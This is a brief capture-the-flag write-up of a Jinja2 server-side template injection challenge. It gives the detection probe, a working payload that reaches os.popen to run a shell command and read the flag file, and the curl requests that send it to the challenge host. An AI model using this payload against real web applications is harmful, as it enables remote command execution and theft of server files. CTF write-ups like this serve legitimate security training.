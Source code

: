 # SSTI Web Exploitation Challenge - SOLVED ✅

## Challenge Details
- **Target**: cpp.bootupctf.net:8095
- **Type**: Server-Side Template Injection (SSTI)
- **Flag**: `[REDACTED]`

## Solution Method
1. **Discovery**: Tested for SSTI vulnerability using `{7*7}` payload
2. **Verification**: Confirmed Jinja2 template engine
3. **Exploitation**: Used `{{config.__class__.__init__.__globals__['os'].popen('cat /home/ctf/flag.txt').read()}}` to read flag
4. **Success**: Retrieved flag successfully

## Key Commands Used
```bash
curl -k -X POST -d "name={{7*7}}" https://cpp.bootupctf.net:8095/
curl -k -X POST -d "name={{config.__class__.__init__.__globals__['os'].popen('cat /home/ctf/flag.txt').read()}}" https://cpp.bootupctf.net:8095/
```

## Vulnerability Type
Server-Side Template Injection in Jinja2 templates allowing code execution and file system access.

## Impact
Complete server compromise with ability to execute arbitrary commands and read sensitive files.
